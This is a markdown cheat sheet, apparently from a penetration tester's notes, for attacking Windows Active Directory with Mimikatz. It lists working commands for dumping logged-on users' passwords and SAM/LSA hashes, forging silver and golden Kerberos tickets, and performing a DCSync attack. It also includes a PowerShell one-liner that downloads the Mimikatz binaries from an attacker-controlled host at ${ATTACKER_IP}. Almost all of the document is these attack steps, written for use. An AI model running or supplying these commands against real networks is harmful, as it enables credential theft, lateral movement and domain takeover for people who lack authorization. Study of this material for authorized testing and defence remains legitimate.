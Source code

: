 # Mimikatz

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

## Silver Tickets

Using an admin powershell and open mimikatz:

```
privilege::debug
```

and follow up with:

```
token::elevate
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER} /ptt
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

We can now use it to move laterally with the techniques mentioned [here](./lateral-movement.md).


## Golden Tickets

Golden Tickets are just Silver Tickets for the krbtgt account.
This grants access to all services using Kerberos authentication.

Another example of the above command (note we pass the NTLM hash to `/krbtgt` and don't specify a specific target):


```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /krbtgt:${KRBTGT_NTLM} /user:${DOMAIN_USER} /ptt

```
Followed up with:

```
misc::cmd
```

Now, eg.  `PsExec` can be run from CMD with the ticket.


## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:
(requires local admin).

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
## Dump hashes

Dump with either:
```
lsadump::sam
lsadump::lsa [/inject | /patch]
```

## Transfering mimikatz files from http server in Powershell

```powershell
iwr -uri http://${ATTACKER_IP}:8000/mimidrv.sys -outfile mimidrv.sys; iwr -uri http://${ATTACKER_IP}:8000/mimikatz.exe -outfile mimikatz.exe; iwr -uri http://${ATTACKER_IP}:8000/mimilib.dll -outfile mimilib.dll; iwr -uri http://${ATTACKER_IP}:8000/mimispool.dll -outfile mimispool.dll
```
